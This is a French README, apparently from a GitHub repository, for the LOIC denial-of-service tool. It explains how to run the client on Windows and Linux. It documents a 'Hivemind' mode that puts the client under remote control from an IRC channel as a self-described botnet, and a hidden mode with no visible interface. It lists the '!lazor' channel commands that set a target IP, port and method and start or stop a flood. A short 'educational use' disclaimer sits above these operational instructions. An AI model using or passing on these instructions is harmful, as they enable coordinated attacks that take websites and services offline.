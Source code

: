 INFO
Low Orbit Ion Cannon (LOIC) est un outil de contrainte réseau open source, écrit en C#. LOIC est basé sur le projet LOIC de Praetox à https://sourceforge.net/projects/loic/.

DÉMENTI
LOIC est uniquement destiné à des fins éducatives, destiné à aider les propriétaires de serveurs à développer une attitude de « défense contre les pirates ». Cet outil est livré sans aucune garantie.

Vous ne pouvez pas utiliser ce logiciel à des fins illégales ou contraires à l’éthique. Cela inclut les activités qui donnent lieu à une responsabilité pénale ou civile.

En aucun cas, le concédant ne pourra être tenu responsable des activités ou des méfaits du titulaire de la licence.

COMMENT EXÉCUTER SOUS WINDOWS
PROCUREZ-VOUS LES BINAIRES !

Nécessite Microsoft .NET Framework 3.5 Service Pack 1, disponible à l’adresse suivante : http://www.microsoft.com/downloads/en/details.aspx?FamilyID=ab99342f-5d1a-413d-8319-81da479ab0d7&displaylang=en

COMMENT FONCTIONNER SOUS LINUX / MACOSX
Exécutez des binaires de débogage avec Mono ou Wine. Lisez le wiki à https://github.com/NewEraCracker/LOIC/wiki/_pages pour obtenir des instructions mises à jour.

ESPRIT DE RUCHE/MODE CACHÉ
Le mode HIVEMIND connectera votre client à un serveur IRC afin qu’il puisse être contrôlé à distance. Considérez cela comme un botnet volontaire. S’il vous plaît être conscient que votre client peut potentiellement être fait pour faire des choses coquines.

Remarque : Il ne permet PAS l’administration à distance de votre machine ; il fournit simplement le contrôle de LOIC lui-même.

Si vous voulez démarrer en mode Hivemind, exécutez quelque chose comme ceci :

	LOIC.exe /hivemind irc.server.address
qui se connectera à irc://irc.server.adress:6667/loic

Vous pouvez également spécifier un port et un canal :

	LOIC.exe /hivemind irc.server.address 1234 #secret
qui se connectera à irc://irc.server.adress:1234/secret

Afin d’exécuter le mode Hivemind Hidden (Esprit de ruche), exécutez quelque chose comme ceci :

	LOIC.exe /hidden /hivemind irc.server.address
qui se connectera à irc://irc.server.adress:6667/loic sans aucune interface graphique visible.

CONTRÔLE DE LA LOIC À PARTIR D’IRC
En tant qu’OP, Admin ou Propriétaire, définissez le sujet de la chaîne ou envoyez un message tel que le suivant :

	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true
Pour lancer une attaque, tapez :

	!lazor start
ou ajoutez « start » à la fin de la rubrique :

	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true start
Pour réinitialiser les options de LOIC à leurs valeurs par défaut :

	!lazor default
Pour arrêter une attaque :

	!lazor stop
et assurez-vous de supprimer « start » de la FIN du sujet, s’il existe également.

Jetez un coup d’œil au code source pour plus de détails.

